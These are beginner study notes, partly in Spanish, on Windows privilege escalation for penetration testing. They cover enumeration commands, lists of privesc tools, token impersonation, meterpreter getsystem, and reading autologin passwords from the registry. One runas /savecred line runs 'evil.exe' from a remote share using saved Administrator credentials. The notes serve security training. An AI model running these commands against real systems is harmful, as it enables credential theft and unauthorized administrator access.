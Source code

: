 # Windows Privilege Escalation for Beginners

## Initial Enumeration

### System Enumeration

```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic qfe get Caption,Descrption,HotFixID,InstalledON
wmic logicaldisk get Caption,Descrption,ProviderName
```

### User Enumeration

```cmd
whoami
whoami /priv
whoami /groups
whoami /all
net user
net user <user>
net localgroup
net localgroup <group>
```

### Network Enumeration

```cmd
ipconfig
ipconfig /all
arp -a
route print
netstat -ano
```

### Password Hunting

```cmd
findstr /si <patron> *.txt *.ini *.config
```

**Verificar guías dadas (PayloadsAllTheThings)**

### AV and Firewall Enumeration

```cmd
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

## Exploring Automated Tools

| Ejecutables | PowerShell | Otras |
|---|---|---|
| [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock) | [windows-exploit-suggester.py (local)](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) |
| [Seatbelt.exe (compilar)](https://github.com/GhostPack/Seatbelt) | [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) | [Exploit Suggester (Metasploit)](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) |
| [Watson.exe (compilar)](https://github.com/rasta-mouse/Watson) | [jaws-enum.ps1](https://github.com/411Hall/JAWS) |  |
| [SharpUp.exe (compilar)](https://github.com/GhostPack/SharpUp) |  |  |

## Escalation Paths

### Kernel Exploits

[Github - Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Passwords

**Verificar guías dadas**

### Windows Subsystem for Linux

**Verificar guías dadas**

### Token Impersonation

#### What are tokens?

Llaves temporales que permiten el acceso a un sistema/red sin tener que proveer las credenciales cada que se tiene acceso a un archivo. *Como las cookies para las computadoras*.

Existen dos tipos:
- Delegate - Creado para loguearse a una máquina o hacer uso del escritorio remoto.
- Impersonate - "no-interactive" tal como el montaje de una unidad de almacenamiento en red o un script de logueo de dominio.

#### Identificación

`whoami /priv`

![5baf6ec9bbb1605fd21ebafceaa622bd.png](./images/impersonation_1.png)

Permisos: `SeAssignPrimaryToken` y `SeImpersonatePrivilege`

### getsystem

Dentro de una sesión de meterpreter ejecutar `getsystem` el cuál hace uso de de diferentes métodos para escalar los privilegios.

Se encuentra [aquí un artículo](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/) para ver detalles.

### RunAs

Ejecutar `cmdkey /list` para verificar la existencia de credenciales guardadas.

```bash
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Posteriormente usar `runas` con la opción `savecred` para usar las credenciales guardadas. Ejemplo:

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

*[Más info en PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)*


### Windows Autologin

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
``` 

## Recursos y referencias

- [Fuzzy Security Guide](https://www.fuzzysecurity.com/tutorials/16.html).
- [PayloadsAllTheThings Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).
- [Absolomb's Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/).
- [Sushant747's Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html).
- [TCM Windows Priv Esc Course Repo](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources).
- [Offensive Security - Fun with Incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/).
- [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/).
- [CobaltStrike - What happens when I type getsystem?](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/).

